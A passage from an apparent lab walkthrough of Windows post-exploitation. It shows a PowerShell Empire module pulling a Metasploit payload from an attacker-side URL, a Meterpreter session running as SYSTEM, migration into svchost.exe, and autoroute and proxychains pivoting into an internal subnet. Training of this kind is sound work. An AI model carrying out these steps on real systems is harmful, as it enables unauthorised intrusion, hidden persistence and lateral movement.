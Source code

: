 `usemodule powershell/code_execution/invoke_metasploitpayload`, `info`, `set URL http://10.10.11.2:8080/Klji3v5GH`, `execute`.

**Step 7: Gaining Elevated Access and Exploring Processes**.

`sessions`, `sessions -i 2`, `sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

`ps -s svchost.exe`:
```
Filtering on SYSTEM processes...
Filtering on 'svchost.exe'

Process List
============

 PID   PPID  Name         Arch  Session  User                 Path
 ---   ----  ----         ----  -------  ----                 ----
 752   680   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\svchost.exe ←
 924   680   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\svchost.exe
 1296  680   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\svchost.exe
 1348  680   svchost.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\svchost.exe
```

`migrate 752`:
```
[*] Migrating from 836 to 752...
[*] Migration completed successfully.
```

**Step 8: Network Pivoting and Internal Reconnaissance**.

`bg`, `search autoroute`, `use post/multi/manage/autoroute`, `show options`, `set SESSION 2`, `run`:
```
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ATTACKDEFENSE
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.2.16.0/255.255.240.0 from host's routing table. ←
[*] Post module execution completed
```

`proxychains --version`:
```
[proxychains] config file found: /etc/proxychains4.conf ←
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
proxychains can't load process....: No such file or directory
```
